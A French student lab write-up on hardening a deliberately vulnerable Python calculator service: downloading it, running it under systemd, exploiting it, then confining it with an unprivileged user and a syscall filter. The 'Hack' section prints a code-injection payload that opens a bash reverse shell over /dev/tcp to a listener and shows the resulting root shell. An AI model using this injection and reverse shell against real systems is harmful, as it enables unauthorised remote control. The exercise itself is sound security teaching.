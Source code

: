 # Part IV : My shitty app

## 1. Test

🌞 **Téléchargez l'app Python dans votre VM**

- avec une commande `curl` par exemple
- stockez le fichier `calc.py` dans le répertoire `/opt/`
```
[user1@efrei-xmg4agau1 ~]$ sudo curl https://gitlab.com/it4lik/m1-hardening-2024/-/raw/main/tp/2/calc.py -o /opt/calc.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   780  100   780    0     0   5000      0 --:--:-- --:--:-- --:--:--  5000

```

🌞 **Lancer l'application dans votre VM**

- lancez-la avec : `python3 /opt/calc.py`
- ouvrez le bon port firewall

```
[user1@efrei-xmg4agau1 ~]$ sudo firewall-cmd --add-port=13337/tcp --permanent
[sudo] password for user1: 
success
[user1@efrei-xmg4agau1 ~]$ sudo firewall-cmd --reload
success
[user1@efrei-xmg4agau1 ~]$ sudo python3 /opt/calc.py 

```
- connectez-vous avec une commande `nc` (depuis votre PC)
- essayez d'envoyer genre "3+3" une fois connecté
- l'app doit vous répondre "6"

Sur le shell de ma machine
```
┌─[trist@parrot]─[~]
└──╼ $nc 192.168.1.29 13337

Hello3+3
6

```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```
[user1@efrei-xmg4agau1 ~]$ sudo nano /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```
[user1@efrei-xmg4agau1 ~]$ sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

```
[user1@efrei-xmg4agau1 ~]$ systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- démarrage de l'application avec `sudo systemctl start calculatrice`
```
[user1@efrei-xmg4agau1 ~]$ sudo systemctl start calculatrice
```

## 3. Hack

🌞 **Hack l'application**

- depuis votre PC, vous vous connectez à l'application Python avec `nc`
```
┌─[✗]─[[user1@efrei-xmg4agau1 ~]$trist@parrot]─[~]
└──╼ $nc 192.168.1.29 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.1.28/4444 0>&1'")

```

- exploitez l'application pour obtenir un shell `root`  
```
┌─[[user1@efrei-xmg4agau1 ~]$trist@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.1.28] from (UNKNOWN) [192.168.1.29] 45234
bash: cannot set terminal process group (302520): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]# ls
ls
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@localhost /]# 

```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```
[user1@efrei-xmg4agau1 ~]$ ps -ef | grep calc.py
root      342939       1  0 15:29 ?        00:00:00 /usr/bin/python3 /opt/calc.py
user1      344690   10782  0 15:30 pts/0    00:00:00 grep --color=auto calc.py

```

🌞 **Créer l'utilisateur `calculatrice`**

- principe du moindre privilège :
```
[user1@efrei-xmg4agau1 ~]$ sudo useradd -M -N -s /sbin/nologin calculatrice
```

🌞 **Adaptez les permissions**

- le fichier `/opt/calc.py` doit appartenir à notre nouvel utilisateur
- le fichier `/opt/calc.py` doit appartenir à notre nouveau groupe
- les permissions doivent être les plus restrictives possibles pour que le service fonctionne
```
[user1@efrei-xmg4agau1 ~]$ sudo chown calculatrice:calculatrice /opt/calc.py 
[user1@efrei-xmg4agau1 ~]$ ls -l /opt/calc.py 
-rwxr-x---. 1 calculatrice calculatrice 780 Feb 11 14:01 /opt/calc.py

```

🌞 **Modifier le `.service`**

- ajoutez la clause `User=calculatrice`
- n'oubliez pas de `sudo systemctl daemon-reload` pour que le changement prenne effet
- redémarrez le service
```
[user1@efrei-xmg4agau1 ~]$ sudo nano /etc/systemd/system/calculatrice.service
User=calculatrice
[user1@efrei-xmg4agau1 ~]$ sudo systemctl daemon-reload
[user1@efrei-xmg4agau1 ~]$ sudo systemctl restart calculatrice

```

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

- avec une commande `ps` et un `grep`
```
[user1@efrei-xmg4agau1 ~]$ ps -ef | grep calc.py
calcula+  389956       1  1 15:53 ?        00:00:00 /usr/bin/python3 /opt/calc.py
user1      390043   10782  0 15:53 pts/0    00:00:00 grep --color=auto calc.py

```

### B. Syscalls


🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal
```
[user1@efrei-xmg4agau1 ~]$ sudo sysdig proc.name=python3 > normal_trace.log
[user1@efrei-xmg4agau1 ~]$ sudo cat normal_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 access arch_prctl bind brk close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address socket switch sysinfo write
```

🌞 **Tracez l'exécution de l'application : hack**

- idem, mais pendant que vous exploitez la vulnérabilité

```
[user1@efrei-xmg4agau1 ~]$ sudo cat hack_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 clone3 execve getsockname mmap munmap recvfrom rt_sigaction rt_sigprocmask sendto switch wait4 [user1@efrei-xmg4agau1 ~]$
```
- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?
Oui. `clone3`, `rt_sigprocmask` et `wait4`  

🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`

```
[user1@efrei-xmg4agau1 ~]$ sudo nano /etc/systemd/system/calculatrice.service
SystemCallFilter=~clone3 rt_sigprocmask wait4
[user1@efrei-xmg4agau1 ~]$ sudo systemctl daemon-reload
[user1@efrei-xmg4agau1 ~]$ sudo systemctl restart calculatrice

```
- vérifiez que l'exploitation est devenue plus compliquée
```
┌─[trist@parrot]─[~]
└──╼ $nc 192.168.1.29 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.133.128/4444 0>&1'")
┌─[trist@parrot]─[~]
└──╼ $
```
